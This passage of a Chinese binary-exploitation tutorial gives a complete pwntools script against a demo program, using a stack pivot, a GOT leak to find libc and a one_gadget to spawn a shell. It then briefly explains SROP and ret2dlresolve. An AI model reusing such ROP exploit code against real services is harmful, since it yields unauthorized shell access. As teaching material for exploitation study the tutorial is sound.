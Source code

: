 最终以上 demo 在 `libc2.31ubuntu9.9` 下的利用脚本如下

```bash
from pwn import*
context(arch='amd64',log_level='debug')
io = process('./stp')
elf = ELF('./stp')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context(arch='amd64',log_level='debug')
read = 0x4011DF
bss=elf.bss()+0x100
main=0x4011BD
rdi=0x401273
puts_got=0x404018 
puts_addr=0x401060
payload1 = b'a'*0x30+p64(bss)+p64(read)
payload2 = b'a'*0x30+p64(bss+0x30)+p64(read)
payload3 = p64(bss+0x40)+p64(rdi)+p64(puts_got)+p64(puts_addr)+p64(main)
io.send(payload1)
io.send(payload2)
io.send(payload3)
puts_real_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
libc_base = puts_real_addr - libc.sym["puts"]
r12 = libc_base+0x2f709
ogs=[0xe3afe,0xe3b01,0xe3b04]
og=libc_base+ogs[0]
payload1 = b'a'*0x30+p64(bss+0x100)+p64(read)
payload2 = b'a'*0x30+p64(bss+0x130)+p64(read)
payload3 = p64(bss+0x140)+p64(r12)+p64(0)+p64(og)
io.send(payload1)
io.send(payload2)
io.send(payload3)
io.interactive()
```

## 3.SROP

之前写过一次，随便提一嘴

其实就是一个叫 sigreturn 的系统调用的利用，整体来讲其实就是 ret2syscall 的变种，不过原理会更加复杂些

之前写的文章链接： [SROP](https://xz.aliyun.com/t/13198)

## 4.ret2dlresolve

这部分利用我只能讲出原理，利用的话可以看看这位师傅的文章：（没咋碰见过。。）

[ret2dlresolve 超详细教程 (x86&x64)-CSDN 博客](https://blog.csdn.net/qq_51868336/article/details/114644569)

具体而言就是 got 和 plt 表的延迟绑定机制

在调用函数 plt 表后，程序会使用函数\_dl\_runtime\_resolve(link\_map,reloc\_offset) 来对动态链接的函数进行重定位

这个函数会完成符号的解析，即将真实的 write 函数地址写入其 GOT 表对应的条目中，随后将控制器交给被解析的函数

这个攻击的目的，就是劫持程序对于符号的解析过程，让程序把原函数解析成我们想要执行函数及对应参数

### 应用范围：

程序中无输出函数，并且未开启 full relro

## 总结

本期我介绍的是更加复杂的 ret2 应用，是很多给了限制条件的程序的攻击良方，希望对想要深入学习二进制漏洞利用的师傅们有帮助
